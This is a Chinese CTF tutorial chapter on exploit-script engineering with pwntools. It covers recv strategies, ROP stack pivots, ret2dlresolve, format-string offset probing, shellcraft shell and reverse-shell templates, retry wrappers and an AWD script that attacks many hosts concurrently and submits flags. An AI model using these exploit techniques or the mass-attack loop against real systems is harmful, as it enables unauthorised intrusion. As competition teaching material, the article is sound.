




# CTF方法论体系（8）· 漏洞利用脚本工程：pwntools进阶

> [!abstract] TL;DR
> - 本篇不重复系列 33 已讲透的 pwntools 分层架构与 ROPgadget 搜索算法（详见 [[33.二进制漏洞与利用基础/22.利用开发工具链：pwntools与ROPgadget]]），而是聚焦"如何把已经理解的工具组装成一份限时比赛里扛得住远程抖动、能被队友复用的 `exploit.py`"——这是**工程纪律**问题，不是**工具知识**问题。
> - tube 的本质是给"你不完全可控的目标程序输出节奏"建模：`recvuntil`/`recvregex`/`clean` 该怎么选、超时与 EOF 语义怎么区分、菜单式交互题怎么封装成可复用函数，直接决定脚本能不能在网络抖动的远程环境里稳定跑完。
> - `ROP()` 自动组链在栈空间不够、需要跨阶段迁移、或目标是 `_dl_runtime_resolve` 时会力不从心；`rop.raw()`/`rop.migrate()` 手动栈迁移与 `Ret2dlresolvePayload` 是比"推倒重来手搓地址"更工程化的升级路径，再往上的兜底是第 9 章的 angr/angrop 符号执行。
> - `fmtstr_payload` 只解决"已知偏移后怎么拼 payload"，竞赛里真正费时间的是偏移和可泄露地址本身未知的前半段；`FmtStr` 类把"发探测串→解析回显→反推偏移"的循环自动化，而 `numbwritten` 漏算横幅字节数是复现率极高的隐蔽 bug。
> - `shellcraft` 是按 `arch/os` 分层的 Mako 模板系统，其核心原语 `pushstr` 只保证不出现 NUL 字节，其余坏字符必须手工核对——这是"shellcode 本地能跑、远程却卡死"的高发根因。
> - 竞赛脚本工程有一套成熟套路：`while True` 重试包裹应对概率性利用、菜单封装函数、`args` 驱动本地/远程/GDB 三态切换、多线程批量打点 + 正则自动提取并提交 flag——在 AWD 赛制下，这套模式从"个人技巧"升级为"团队基础设施"。

## 概述与定位

《CTF方法论体系》的工具链主线到本章走到一个承上启下的节点：第 07 章把"怎么用 IDA/Ghidra/gdb-pwndbg 定位漏洞点、算出偏移与 gadget 地址"讲成了速查手册，第 09 章将要讲的 angr 是"人工推理走不动时交给约束求解器"的最后一道保险；本章夹在中间，回答一个纯工程问题：**从"我知道这里有一个栈溢出、偏移是 72、libc 版本已识别"到"一份能在赛场上稳定拿到 flag 的脚本"，中间要走哪些必经的工程步骤？**

这个问题和第 02 章《Pwn解题范式与模板》是不同海拔的两件事：02 讲的是"泄露-绕过-getshell"这条解题**战略**该怎么排兵布阵——先打什么、后打什么、遇到 Canary/PIE/RELRO 分别绕什么；本章讲的是把这条战略**落地成代码**时，pwntools 这套工具要怎么被正确、健壮、可复用地驾驭——两者是"打法"与"手法"的关系，02 决定往哪打，08 决定枪怎么端稳。

本章也刻意与 [[33.二进制漏洞与利用基础/22.利用开发工具链：pwntools与ROPgadget]] 划清边界，避免同一本知识库里出现两篇内容重叠的 pwntools 文章：那一篇是**工具原理篇**，系统讲了 pwntools 五层架构为何这样设计、`cyclic()` 背后的 de Bruijn 序列数学、`ROP()` 自动组链的图搜索本质、`fmtstr_payload` 的排序算法、ROPgadget/ropper/angrop 三条算法路线的对比，以及 `pwninit`/`glibc-all-in-one`/`qemu-user` 这套环境搭建工具链——这些原理性内容本章一律不再重复推导，读者若对"pwntools 为什么这样设计"有疑问，应先去读那一篇。本章假设读者已经**会用**这些工具，要解决的是下一层问题：**赛场上工具用起来老翻车怎么办**——目标程序的输出节奏和预想不一样导致脚本卡死在 `recvuntil`；本地调试百发百中的 ROP 链换成远程就断在某一步；格式化字符串泄露的偏移量在换了一个新二进制后全部对不上；生成的 shellcode 在本地 `process()` 里跑得好好的，扔给远程 `socat` 服务却没有任何反应。这些故障模式无一例外指向同一件事：**工具原理是对的，工程细节错了**。本篇围绕题目原文点名的四个核心对象——tube、ROP、fmtstr、shellcraft——逐一展开它们在竞赛工程实践中的正确用法、常见的自动化边界，以及边界之外该如何手工兜底，最后给出脚本结构、批量打点、团队协作层面的工程化沉淀。

## 原理与机制

### 竞赛 exploit 脚本的生命周期：一个隐藏的状态机

不熟悉这套工作流的人容易把"写 exploit"想象成一次性的线性编码过程，但真实的竞赛脚本开发是一个反复折返的循环：本地起进程 → 用已知 payload 触发崩溃并挂 GDB 观察寄存器/栈状态 → 根据观察调整偏移或链条 → 本地验证阶段性效果（比如先只验证能不能泄露一个地址，再验证能不能 getshell）→ 全部本地打通后切换到远程 → 远程往往会暴露本地测不出的问题（网络分片、限速、libc 版本差异）→ 修正后包一层重试逻辑保证稳定性 → 最终固化成一份"一次运行就出 flag"的脚本交给队友或存档复现。这个循环本质上是一个状态机，理解它比死记 API 更重要，因为几乎所有本章要讲的工程技巧，都是在为这个状态机的某一次状态迁移**降低失败率**：



这张图里每一条"否"分支背后都是本章要讲的具体技术：`C→D→E→F` 这条本地调试回路依赖对 tube 与 GDB 联动的正确使用；`G` 的分阶段验证依赖把 ROP 链拆成可独立测试的函数；`H→I→J` 这条远程适配回路，本章从"脚本层面如何让这一步更快收敛"的角度补充 33/22 已经讲过的"环境搭建三类对不上"；`K` 是重试与批量化工程，是竞赛脚本区别于教学 demo 的关键特征——demo 只需要跑通一次，竞赛脚本需要在"偶尔失败也能自动恢复"的前提下跑出稳定的成功率。

### tube：把"未知节奏的对手"建模成可编程状态

33/22 已经讲清楚了 tube 统一抽象"本地进程/远程 TCP/SSH 会话"背后的设计动机，以及 `recvuntil` 阻塞语义、缓冲区先进先出这两个基础性质。本章在这个基础上继续往前一步：**真正决定脚本能不能扛住各种目标程序的，是 recv 系列方法之间的选择策略**，这本质上是在给"你完全不知道对方下一秒会发什么、什么时候发"这件事建模。

pwntools 提供的一组 recv 方法并不是互相替代的同义词，而是分别针对不同的"对手输出模式"设计的：

| 方法 | 适用场景 | 典型陷阱 |
| --- | --- | --- |
| `recvuntil(delim)` | 目标输出以固定字符串/字节结尾（提示符、`"\n"`） | 提示语在不同版本二进制间悄悄变化时，脚本会一直阻塞到超时，而不是报错——最容易被误判为"网络卡了" |
| `recvline()` | 按行输出的协议（每次响应正好一行） | 目标一次 `write()` 把多行数据合并输出时，会出现"少读一行"或读到下一阶段数据的错位 |
| `recvn(n)` | 已知返回值长度固定（比如 8 字节地址） | 目标实际发送字节数比预期少（例如只发 6 字节地址高位补零被截断）时会持续阻塞 |
| `recvregex(pattern)` | 需要从不定长文本里模式匹配提取一段（比如从横幅里抠出一个十六进制地址） | 正则要在"看到匹配"与"还没读够"之间反复试探，目标输出量很大时性能会明显劣于 `recvuntil` |
| `clean(timeout=...)` | 清空当前尚未读取的缓冲区噪声（横幅、调试打印） | 常被漏用：不清干净就直接 `recvuntil` 下一阶段标记，会因为噪声里偶然包含同样的字节序列而提前误判 |

选择哪一个从来不是"哪个更方便"，而是要先回答一个问题：**目标程序这一步输出的边界特征是什么——是一个固定分隔符、一个固定长度、还是一个可用正则描述的模式？** 把这个问题问清楚，再选对应的 recv 方法，是把"程序输出协议"逆向明确之后的自然结果，而不是凭感觉试出来的。

一个同样重要但容易被忽略的机制是**超时与连接关闭的语义区别**：`recv` 系列方法在等待条件满足期间如果触发超时，通常只是返回当前已经攒够的字节（可能是空字节串），脚本可以据此判断"目标还没吐出想要的东西，可能是我的假设错了"；但如果目标进程已经退出或连接已经被对端关闭，继续尝试读取会抛出 `EOFError`。这两种情况在竞赛脚本里对应完全不同的处理逻辑——前者通常意味着"我对输出格式的假设不对，该回去检查 payload 或分隔符"，后者通常意味着"目标崩溃了（可能是好事，说明触发了预期的内存破坏；也可能是坏事，说明 payload 把程序直接打挂而不是按计划劫持了控制流）"。把这两类异常分开捕获，而不是笼统地用一个 `except Exception` 兜底，是让脚本在调试阶段"错误信息说人话"的关键。

对菜单驱动型题目（几乎是堆利用类 CTF 题目的标准形态：增删查改若干个操作项），竞赛脚本工程的标准做法是把每一个菜单项封装成一个 Python 函数，函数内部处理好该菜单项对应的所有 `sendlineafter`/`recvuntil` 交互细节，函数外部只暴露语义化的参数：

```python
def menu(idx):
    p.sendlineafter(b"choice: ", str(idx).encode())

def add(size, data):
    menu(1)
    p.sendlineafter(b"size: ", str(size).encode())
    p.sendafter(b"data: ", data)

def free(idx):
    menu(2)
    p.sendlineafter(b"index: ", str(idx).encode())

def show(idx):
    menu(3)
    p.sendlineafter(b"index: ", str(idx).encode())
    return p.recvline()
```

这种封装的价值不止是"少写重复代码"：一旦题目菜单的提示语或参数顺序发生变化（同一个出题模板经常被改几个字符串就复用成新题），只需要改这几个函数内部的实现，后续所有调用 `add`/`free`/`show` 的业务逻辑代码完全不用动——这正是 tube 抽象在"能不能快速换题复用脚本骨架"这件事上的真实价值，而不仅仅是 33/22 强调的"`process` 换 `remote` 只改一行"。`interactive()` 的使用也有一个常被忽视的细节：交给 `interactive()` 之后终端进入近似原始模式，Ctrl+D、Ctrl+C 等控制字符会被直接转发给目标进程而不是本地 shell，如果拿到 shell 后想干净退出，显式发送 `exit` 命令比依赖终端快捷键更可靠。

## ROP、fmtstr、shellcraft 深度详解：自动化边界与人工兜底

### ROP：从 `rop.call()` 到手工栈迁移与 `ret2dlresolve` 自动化

33/22 已经把 `ROP()` 的图搜索本质、`rop.call()` 如何按调用规约自动填充寄存器、找不到独立 `pop` gadget 时如何退化到 `__libc_csu_init` 讲得很清楚。这里要补的是下一层问题：**当自动组链本身遇到工程约束而不只是"缺一个 gadget"时，脚本该怎么写？** 竞赛中至少有三类场景是纯自动化搞不定的。

**场景一：溢出缓冲区太小，装不下完整链条。** 栈溢出经常只有几十字节的可控空间，一条像样的 `read/write` 泄露链条加上后续 getshell 链条动辄上百字节，根本塞不进去。这时候标准手法是**栈迁移（stack pivot）**：先用一条很短的链条把 `rsp` 改到一块你完全控制、空间足够大的内存（`.bss` 段、堆上已分配的可控 chunk，都是常见选择），后续真正的长链条预先写在那块内存里，栈迁移发生的瞬间控制流就"跳"到了那条长链条的起点继续执行。pwntools 把这个模式封装成了 `rop.migrate(new_stack)`：调用后，`ROP` 对象后续生成的所有 gadget 引用都会按迁移之后的新栈继续拼接，脚本作者不需要手动计算迁移 gadget（一般是 `leave; ret` 或 `pop rsp; ...; ret` 这类效果）与新栈基址的对应关系。配合 `rop.raw(value)`——用于往链条里插入一个不需要被翻译成 gadget 调用的原始栈值（垫片、或者迁移目标地址本身）——手工栈迁移在 pwntools 里已经不需要逐字节摆放，但**理解迁移发生的那一刻栈内存布局仍然是必要的**：

```
迁移前（原栈，仅几十字节可控）：
  rsp+0x00 .. rsp+0x27   短 ROP 链：pop rdi; pop rsi; ... ; leave/ret 类 pivot gadget
                          最终把 rsp 指向下面这块新栈

迁移后（.bss 或堆上的新栈，容量按需分配）：
  new_stack+0x00 ..      完整的长链条：泄露阶段 + getshell 阶段
                          可以放心地写几百字节，不再受原缓冲区大小约束
```

**场景二：目标是 `_dl_runtime_resolve` 本身（ret2dlresolve）。** 当程序开启了 Partial RELRO（GOT 可写）但没有现成的 libc 泄露点、又想借助动态链接器自身的符号解析机制间接调用任意函数时，手工构造伪造的 `Elf64_Rela`/符号名字符串/`JMPREL` 索引极其繁琐、极易出现结构体字段对不上的低级错误。pwntools 的 `Ret2dlresolvePayload` 把这套结构体拼装自动化，典型用法大致如下（不同 pwntools 版本细节可能略有出入，实际字段与方法名以当前安装版本文档为准）：

```python
elf = ELF("./vuln")
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr, 100)   # 先把伪造的符号名/参数字符串读入可控内存
rop.ret2dlresolve(dlresolve)            # 再触发 _dl_runtime_resolve 按伪造结构解析并调用
chain = rop.chain()
payload = flat({OFFSET: chain})
payload += dlresolve.payload            # 对应写入 data_addr 处的原始字节
```

这个类解决的问题和 `ROP.call()` 是同一类问题（把繁琐且易错的结构体/地址计算自动化），只是作用的对象从"用户态函数调用规约"换成了"动态链接器内部的符号解析数据结构"，具体的 GOT/PLT/重定位表结构原理见 [[33.二进制漏洞与利用基础/16.GOT劫持与ret2dlresolve]]。

**场景三：生成的链条含坏字节。** ROP 链本质上是一串地址与立即数拼接成的字节流，如果目标程序用 `read(0, buf, n)` 这类不做字符过滤的方式读入，链条本身可以是任意字节；但如果输入路径是 `scanf("%s")`、`gets()` 之类遇到特定字节会提前截断的函数，链条里出现 `\x0a`（换行）或 `\x00` 就会让后续字节永远送不到目标程序里。工程上的标准动作是在链条拼装完成后立刻加一道断言：

```python
badchars = b"\x00\x0a\x0d\x20"
chain = rop.chain()
assert not any(b in chain for b in badchars), "chain 含坏字节，检查地址选取"
```

一旦断言失败，唯一的修复路径是换一个不含坏字节的等价 gadget（回到 33/22 讲过的 `ROPgadget --badbytes` 过滤，或者切换到 ropper 的语义搜索找一个效果相同但地址不同的候选）——工具在这里帮不上更多忙，这也是为什么"提前用 `--badbytes` 过滤候选池"往往比"链条拼完再排查"更省时间。调试阶段 `rop.dump()` 会打印一份按栈偏移排列的链条可读视图（每个槽位对应的 gadget 反汇编或数据含义），这是排查链条错位问题时比对着裸十六进制猜地址高效得多的手段。

这三类场景之间也存在一条清晰的**自动化升级路径**，理解这条路径能帮助竞赛中快速判断"这一步该用什么级别的工具"，而不是每次都从最复杂的方案开始尝试：



### fmtstr：偏移未知时的自动化探测，与 `numbwritten` 陷阱

33/22 深入讲了 `fmtstr_payload(offset, writes, write_size, strategy)` 内部把多组写入按目标字节值排序、从而把填充量降到最小的算法。但那个函数有一个前提：**`offset`（格式化字符串参数在栈上的位置）必须已知**。竞赛中拿到一个新的格式化字符串漏洞时，这个前提本身就是需要现场求解的未知数，这正是本节要补的"泄露阶段"工程实践。

最直接的手工做法是交互式试探：把 `payload = b"AAAAAAAA." + b"%p." * 12` 直接发给目标（或者先用 `p.interactive()` 手动敲进去，肉眼观察回显里哪个 `%p` 打印出了 `0x4141414141414141`），数出这是第几个 `%p`，就是偏移量。这个手工探测动作快，很适合"先花 10 秒钟眼看出偏移，再回头写脚本"的比赛节奏，但不适合需要反复重连、偏移会因为栈布局微调而变化的场景。

pwntools 把这套"发探测串 → 解析回显 → 反推偏移与可读地址"的循环封装成了 `FmtStr` 类，其设计思路是让调用者只提供一个"如何把格式化字符串发给目标并拿到回显"的回调，其余探测逻辑由类内部完成，典型用法大致如下：

```python
def execute_fmt(payload):
    p.sendlineafter(b"> ", payload)
    return p.recvline()

autofmt = FmtStr(execute_fmt)      # 内部自动探测 offset，无需手工数 %p
leak_addr = 0x602010
leaked = autofmt.leak(leak_addr)   # 复用同一套探测机制，按地址读任意内存
```

这里体现的设计取舍和 33/22 分析 `context` 全局单例时同一个思路：把"过程"封装进对象，让调用者只需要描述"怎么发、怎么收"这一个原子操作，反复试探的控制逻辑不需要每道题重新手写一遍。`FmtStr` 与 `fmtstr_payload` 因此构成一套完整的两阶段流水线——前者解决"我能读，但还不知道往哪写、写什么"，后者解决"我已经知道往哪写、写什么，如何拼出最短的 payload"。

一个复现率很高的隐蔽 bug 和 `numbwritten` 参数有关。`%n` 系列写入的值等于**触发写入那一刻 printf 已经打印的字符总数**，而这个计数器不是从用户传入的格式化字符串开始算的，是从**这次 `printf` 调用第一次产生输出算起**的——如果目标程序在真正触发漏洞的 `printf(buf)` 之前，同一次输出里已经先打印过一段横幅或提示语（比如 `printf("Your input: %s", buf)` 这种把固定前缀和用户输入放进同一次调用的写法），这段前缀本身占用的字符数必须通过 `numbwritten` 参数告诉 `fmtstr_payload`，否则内部排序算法计算出的填充字符数会整体偏差一个固定值，导致写入的目标字节全部错位。这个 bug 之所以隐蔽，是因为**它不会让脚本报错或卡死，而是让漏洞利用"看似成功执行、实际写坏了别的地址"**，排查起来远比一个直接崩溃的 bug 费时间——养成"先确认这次 printf 调用之前有没有固定前缀，再决定 `numbwritten` 传不传、传多少"的检查习惯，比事后调试更省时间。



### shellcraft：模板系统的设计原理与常用积木

shellcraft 在 33/22 里只是分层架构中一带而过的一个名字，但它本身是一套值得单独理解的子系统。它的实现方式不是"每种架构手写一份 shellcode 字节表"，而是一套按 `arch/os` 目录组织的 **Mako 模板**：每个逻辑功能（"生成一个 shell"、"读一个文件并输出"、"发起一次 TCP 连接"）对应一份 `.asm` 模板源文件，模板里嵌入类 Python 的条件与循环逻辑，调用 `shellcraft.<arch>.<os>.xxx()` 时，pwntools 先按当前参数把模板渲染成一段具体架构的汇编文本（寄存器名、系统调用号都会按目标 `arch`/`os` 替换——系统调用号本身通过 `constants` 模块查表得到，同一份"发起 execve"的模板源码在 i386/amd64/arm 上因此可以复用同一套逻辑而只替换查表结果），再交给 `asm()` 调用 pwntools 内置的（预编译、不需要用户单独安装完整交叉工具链的）汇编器后端转换成机器码字节。理解这条"模板渲染 → 架构相关汇编文本 → 机器码"的流水线，能解释很多表面上"奇怪"的行为，比如同一份 `shellcraft.sh()` 调用为什么在改了 `context.arch` 之后生成的字节完全不同——变的不是函数调用，是模板渲染的目标。


竞赛中最常用的一批积木，以及它们各自解决的具体问题：

| 积木 | 解决的问题 |
| --- | --- |
| `shellcraft.sh()` | 最基础的"给我一个 shell"，底层由通用的 `shellcraft.syscall()` 模板拼出 `execve("/bin/sh", ...)` |
| `shellcraft.pushstr(s)` | 几乎所有其他模板的地基：把任意字节串压入栈，专门设计成不出现 `\x00`（因为字符串终止符不能提前截断自身），但**不保证不出现其他坏字节** |
| `shellcraft.cat(path)` / `shellcraft.echo(s, fd)` | 打开文件读出内容并写到指定 fd，常用于 shellcode 空间极小、"打开 flag 文件读出来"比"起交互 shell"更省字节的场景 |
| `shellcraft.dupsh()` | 网络服务类题目里，标准输入输出往往不是 fd 0/1/2，必须先把连接 socket 的 fd `dup2` 到 0/1/2 再 `sh()`，否则拿到的 shell 收发不到任何数据 |
| `shellcraft.findpeer()` / `findpeersh()` | 不确定连接 socket 具体是哪个 fd 编号时，遍历候选 fd 调用 `getpeername()` 探测，解决"硬编码 fd=4 换个环境就不对"的可移植性问题 |
| `shellcraft.connect(host, port)` + `dupio()` | 反弹式 shellcode 的组件：主动发起出站连接后再把该连接 dup 到标准流，与攻击者本地开的 `listen()` tube 配套使用 |
| `shellcraft.syscall(name, a0, a1, ...)` | 没有现成高层模板覆盖需求时的逃生舱：比如需要先 `mprotect` 出一块可执行内存，直接按系统调用号与参数手动拼装 |

这张表里最容易被误用的一点是 `pushstr` 的"不含 NUL"承诺经常被误解成"不含任何坏字节"——shellcraft 从设计上只解决了字符串型输入函数（`strcpy`/`gets` 之类遇 NUL 截断）这个最普遍的约束，对换行符、回车符、空格甚至更严格的"仅字母数字"限制完全不处理，这些约束是题目相关的，不是通用的，需要生成字节后自己过滤检查。当限制严格到必须全字节可打印甚至仅字母数字时，shellcraft 本身已经不是称手的工具，竞赛里通常转向专门的字母数字编码器（在 shellcode 前面加一段自解码 stub，运行时把后面严格受限编码的主体解码回真正的指令）或干脆手写极小体积的汇编——这也是 shellcraft 与手写 shellcode 的分界线所在：**常规约束（不太大的可用空间、只忌 NUL）用 shellcraft 组合积木最快；空间极小或坏字节极严格的场景，shellcraft 提供的是起点而不是成品**。另一类常见的极限场景是"两阶段 shellcode"：可用空间小到连一个完整 `execve` 都塞不下时，先放一段极短的 stub（读取更多字节到某处内存后跳过去执行，或者用 egghunter 手法在整个进程地址空间里扫描一个特征标签、找到后跳到标签后面更大的第二阶段代码），shellcraft 没有内置 egghunter 模板，这类多阶段手法目前仍然是需要手工设计的竞赛技巧。

调试 shellcraft 生成的字节时，`pwn shellcraft -f asm amd64.linux.sh` 这类命令行子工具可以跳过完整 Python 脚本直接产出汇编或裸机器码，配合 `pwn shellcraft -f elf amd64.linux.sh -o test` 直接生成一个可独立运行、可挂 GDB 单步跟踪的最小 ELF，用于验证 shellcode 本身逻辑是否正确——这比每次都把 shellcode 塞进完整 exploit 流程里、走一遍触发漏洞的交互才能看到效果要快得多，是迭代 shellcode 阶段应当优先使用的调试手段。

## 工具视角与实战

### 稳定性：重试包裹与概率性利用

不是所有利用链都是"payload 正确就 100% 成功"：部分绕过 ASLR 的手法本身依赖概率（比如对 `fork()` 服务端爆破一个字节的地址低位，或者条件竞争类漏洞需要多次尝试才能命中窗口）。把整个利用过程包在一个显式的重试循环里，是竞赛脚本区别于教学 demo 的核心特征之一：

```python
while True:
    try:
        p = remote(HOST, PORT) if args.REMOTE else process(elf.path)
        exploit(p)                     # 单次完整利用流程，失败就让异常抛出来
        p.sendlineafter(b"$ ", b"cat flag*")
        flag = p.recvline(timeout=3)
        if b"flag{" in flag or b"flag{" in flag.lower():
            log.success(flag.decode(errors="replace"))
            break
        p.close()
    except (EOFError, TimeoutError):
        p.close()
        continue
```

这段代码的关键设计是**只捕获"预期内的失败信号"**（连接被目标提前关闭、读取超时），而不是用一个笼统的 `except Exception` 吞掉所有异常——payload 拼装阶段的 `AssertionError`（比如前面提到的坏字节断言）、`NameError` 这类编码错误不应该被重试逻辑掩盖，否则脚本会陷入"每次都因为同一个代码错误失败、却看起来像是在正常重试"的假死状态，这是排查这类脚本最容易踩的坑。

### 调试联动：断点先行于交互的迭代节奏

结合第 07 章的静动分析工具，pwntools 竞赛脚本里更高效的调试写法不是"跑一遍完整交互流程，等崩溃了再看现场"，而是提前挂好断点、暂停在断点处再手动确认现场，之后才决定是否继续：

```python
if args.GDB:
    gdb.attach(p, gdbscript=f'''
    b *{hex(elf.symbols["vuln"])}
    c
    ''')
    pause()   # 手动确认断点已生效、GDB窗口已弹出，再继续往下发送触发payload
```

`pause()` 在这里的作用是把"发送 payload"这个动作的时机交还给人工控制——没有它，`gdb.attach` 刚发出附加请求、GDB 还没来得及真正停在断点上，后面的 `sendline` 就已经把 payload 发出去了，观察窗口可能直接被错过。`context.terminal` 决定 GDB 窗口以什么方式弹出（tmux 分屏、独立终端窗口等），需要按本地终端环境适配，这也是团队协作时经常出现"这份脚本在我机器上调试很流畅、换一台机器 gdb 窗口根本不弹"的原因，排查时第一时间应该检查这一项配置而不是怀疑 payload 本身。

### 批量化：AWD 赛制下的多目标打点

攻防赛（AWD）与个人解题最大的工程差异是同一份利用链需要对几十个队伍的主机重复执行，还要自动识别成功并提交 flag。这一层通常在单题 `exploit()` 函数外面再包一层线程池与提交逻辑：

```python
from concurrent.futures import ThreadPoolExecutor
import re, requests

FLAG_RE = re.compile(rb"flag\{[^{}]{4,80}\}")

def attack(ip):
    try:
        p = remote(ip, 10001, timeout=5)
        exploit(p)                       # 复用同一套利用逻辑
        data = p.recvrepeat(2)
        m = FLAG_RE.search(data)
        if m:
            requests.post(SUBMIT_URL, json={"flag": m.group().decode(), "target": ip}, timeout=5)
        p.close()
    except Exception as e:
        log.warning(f"{ip} 未获取到flag: {e}")

with ThreadPoolExecutor(max_workers=20) as pool:
    pool.map(attack, team_ip_list)
```

批量场景下 `context.log_level` 通常要从调试阶段的 `'debug'` 调回 `'error'` 甚至更安静——对单个目标观察每一步收发细节是调试期的需求，对几十个目标并发运行时，同等详细度的日志只会互相淹没、反而看不清哪个目标真正失败。`recvrepeat(timeout)` 在这里替代了逐步 `recvuntil`：批量场景下不值得为每个目标精细控制交互节奏，收集一段时间内的全部输出再用正则扫，工程上更省心也更抗目标间的细微行为差异。



### 竞赛脚本工程检查清单

把前几节的实践收敛成一份可直接对照使用的清单，是本章想沉淀的最终产物：

| 检查项 | 解决的问题 |
| --- | --- |
| `args.REMOTE`/`args.GDB`/本地-远程切换 | 同一份脚本本地调试与打远程零改动，减少"改错一行导致行为不一致"的风险 |
| recv 方法与目标输出边界特征匹配 | 避免卡死在 `recvuntil` 或读取错位 |
| 菜单操作封装成语义化函数 | 题目稍作修改即可复用脚本骨架 |
| ROP 链/shellcode 坏字节断言 | 提前暴露"本地能跑远程卡死"的最常见根因 |
| `fmtstr_payload` 的 `numbwritten` 显式核对 | 避免"看似成功、实际写偏"的隐蔽 bug |
| `while True` + 精确异常捕获的重试包裹 | 应对概率性利用与网络抖动，同时不掩盖真实代码错误 |
| 断点先行 + `pause()` 的调试节奏 | 迭代调试不错过关键现场 |
